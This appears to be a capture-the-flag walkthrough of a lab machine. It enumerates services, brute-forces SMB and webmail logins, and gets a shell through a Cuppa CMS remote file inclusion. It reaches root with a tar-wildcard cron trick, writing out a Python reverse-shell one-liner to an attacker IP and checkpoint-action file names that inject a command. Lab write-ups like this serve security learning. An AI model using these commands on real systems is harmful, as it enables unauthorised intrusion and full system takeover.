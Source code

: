 > Bruteforcing, exploiting tar binary, crontab

# Ports

* **80** : Apache httpd 2.4.18
* **22** : OpenSSH 7.2p2
* **110** : Dovecot pop3d
* **143** : Dovecot imapd
* **139, 445** : Samba smbd 4.3.11-Ubuntu
### Port 80, 139 are used for exploiting

# 80
1. `gobuster` gave /config, /css, /js, /admin, /ai, /squirrelmail. Out of these only /squirrelmail is accessible to us.
2. Squirrelmail requires a valid login.


# 139,445 
1. samba version 4.3.11. 
2. `smbclient -L \\\\10.10.220.111\\` we see two shares: anonymous and milesdyson. A possible 'milesdyson' user in the smb system.
3. `smbclient \\10.10.220.111\anonymous -U guest` contains attention.txt, log1.txt, log2.txt, log3.txt.
4. `attention.txt` tells an incident about password change and it is written by 'Myles dyson'. `log1.txt` contains a list of possible passwords. `log2.txt, log3.txt` are empty.
5. We can try bruteforcing the samba share 'milesdyson' with log1.txt and a possible username 'miles'. Hydra shows error at the first attempt stating username is not valid. So we tried with `milesdyson` and it didn't give a valid password but it confirmed the username as 'milesdyson'

# 110, 143
1. pop3 and imap3 services didn't permit login via cleartext as we tried bruteforcing with hydra using login `milesdyson` and the `log1.txt` password list. Also the `-S` switch for SSL connect in hydra didn't work for me.


# 80 - /squirrelmail
1. The first password in the list log1.txt gave us the login. Username : `milesdyson`  Password: `cyborg007haloterminator`
2. The mail list contains a mail from 'skynet' which gave us the password for 'miledyson' share in the samba. Password: `)s{A&2Z=F^n_E.B``
3. Other mails weren't useful

# 139, 445 - /milesdyson
1. `smbclient \\10.10.220.111\milesdyson -U milesdyson`  with password from the mail logged us in.
2. The share contains AI related files for his work and sifting through the files we found `important.txt` which tells us that a `beta` cms exists at `/45kra24zxs28v3yd` in the web server.

# EXPLOITATION

Navigating /45kra24zxs28v3yd we see a picture of milesdyson and the login page for the cms is at /45kra24zxs28v3yd/administrator.
The cms is `Cuppa CMS` and searchsploit tells us that an RCE exploit exists for the beta version.
The [exploitdb entry](https://www.exploit-db.com/exploits/25971) tells us that the cms is vulnerable to both **RFI** and **LFI**. So we can follow the steps mentioned in the exploitdb entry to get a shell.

`10.10.125.47/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.0.2.12:8000/rev_shell.php` 
rev_shell.php is hosted on our server. 
We get a shell.

# Actions in the low privilege shell
1. At /home/milesdyson a directory named 'backups' is owned by root and inside the directory there is a shell script to backup the content of /var/www/html using the  `tar` binary with **wildcard character**.
2. `/etc/crontab` tells us that this `backup.sh` runs every minute.
3. From [this](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) article, we can get priv esc by abusing the wildchard character in several ways. Here we are going with the reverse shell route.
4. So we cd into `/var/www/html` 
	- `echo "python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.0.2.12\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" > rev.sh`
	To create the reverse shell executable. Also increase its permission to 777.
	- `echo "" > "--checkpoint=1"`, To set the option of the tar binary
	- `echo "" > "--checkpoint-action=exec='sh rev.sh'"`, To execute the reverse shell binary when checkpoint is reached.
	
5. We get the root shell within a minute or so.

We are now root.

P.S: The kernel version of the target `4.8.0-58` is vulnerable to a memory corruption (CVE-2017-1000112) which can be exploited to gain local privilege escalation. Related exploit in [exploitdb](https://www.exploit-db.com/exploits/43418). Since the target has gcc we can compile and run the exploit inside the target itself. 
